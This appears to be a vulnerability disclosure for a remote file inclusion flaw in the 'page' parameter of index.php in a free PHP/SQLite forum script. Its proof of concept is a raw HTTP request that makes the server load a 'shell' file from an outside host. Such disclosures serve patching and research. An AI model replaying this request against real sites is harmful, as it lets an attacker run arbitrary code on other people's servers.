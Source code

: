 # Simple Forum Website using PHP and SQLite3 Source Code Free Download - Arbitrary file read vulnerability
+ Author: xuanluansec
# Vendor Homepage
+ https://www.sourcecodester.com/php/16423/simple-forum-website-using-php-and-sqlite3-source-code-free-download.html
# Software Link
+ https://www.sourcecodester.com/sites/default/files/download/oretnom23/php-sqlite-forum.zip
# Overview
+ xuanluansec has discovered a vulnerability classified as critical in Simple Forum Website using PHP and SQLite3 Source Code Free Download V1.0. Any file contains. This operation will result in unrestricted file inclusion, allowing remote execution of arbitrary code.
# Vulnerability Details
+ Simple Forum Website using PHP and SQLite3 Source Code Free Download V1.0
+ Vulnerable File: index.php
+ Parameter Names: page
+ Attack Type: Remote
# Description
+ xuanluansec has discovered a vulnerability classified as critical in Simple Forum Website using PHP and SQLite3 Source Code Free Download V1.0. Any file contains. This operation will result in unrestricted file inclusion, allowing remote execution of arbitrary code.
# Note
+ Need to register a user with arbitrary permissions.
![1](https://github.com/xuanluansec/vul/blob/main/vul/img/22.png)
# Proof of Concept (PoC) : 

```
GET /index.php?page=http://192.168.166.1:8888/shell HTTP/1.1
Host: www.php-sqlite-forum.com:8095
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=drgqvt3vblngekc6rqgraeor32
Upgrade-Insecure-Requests: 1


```

![2](https://github.com/xuanluansec/vul/blob/main/vul/img/21.png)

remote server

![3](https://github.com/xuanluansec/vul/blob/main/vul/img/23.png)
